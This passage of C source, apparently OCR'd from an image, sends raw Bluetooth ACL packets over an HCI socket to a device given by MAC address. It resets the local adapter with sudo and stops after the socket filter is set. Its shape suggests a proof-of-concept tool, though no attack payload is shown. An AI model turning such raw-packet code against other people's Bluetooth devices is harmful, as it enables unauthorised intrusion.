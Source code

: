 ```c
  const uint8_t *p;

  p = buf;

  while (size--)
    crc = crc16_tab[(crc ^ (*p++)) & 0xFF] ^ (crc >> 8);

  return crc;
}

int hci_send_acl_data(int hci_socket, uint16_t hci_handle, void *data, uint16_t data_length) {
  uint8_t type = HCI_ACLDATA_PKT;
  uint16_t BCflag = 0x0000;
  uint16_t PBflag = 0x0002;
  uint16_t flags = ((BCflag << 2) | PBflag) & 0x000F;

  hci_acl_hdr hdr;
  hdr.handle = htobs(acl_handle_pack(hci_handle, flags));
  hdr.dlen = data_length;

  struct iovec iv[3];

  iv[0].iov_base = &type;
  iv[0].iov_len = 1;
  iv[1].iov_base = &hdr;
  iv[1].iov_len = HCI_ACL_HDR_SIZE;
  iv[2].iov_base = data;
  iv[2].iov_len = data_length;

  return writev(hci_socket, iv, sizeof(iv) / sizeof(struct iovec));
}

int main(int argc, char **argv) {
  if (argc != 2) {
    printf("Usage: %s MAC_ADDR\n", argv[0]);
    return 1;
  }

  bdaddr_t dst_addr;
  str2ba(argv[1], &dst_addr);

  printf("[*] Resetting hci0 device...\n");
  system("sudo hciconfig hci0 down");
  system("sudo hciconfig hci0 up");

  printf("[*] Opening hci device...\n");
  struct hci_dev_info di;
  int hci_device_id = hci_get_route(NULL);
  int hci_socket = hci_open_dev(hci_device_id);
  if (hci_devinfo(hci_device_id, &di) < 0) {
    perror("hci_devinfo");
    return 1;
  }

  struct hci_filter flt;
  hci_filter_clear(&flt);
  hci_filter_all_ptypes(&flt);
  hci_filter_all_events(&flt);
  if (setsockopt(hci_socket, SOL_HCI, HCI_FILTER, &flt, sizeof(flt)) < 0) {
    perror("setsockopt(HCI_FILTER)");
    return 1;
  }

```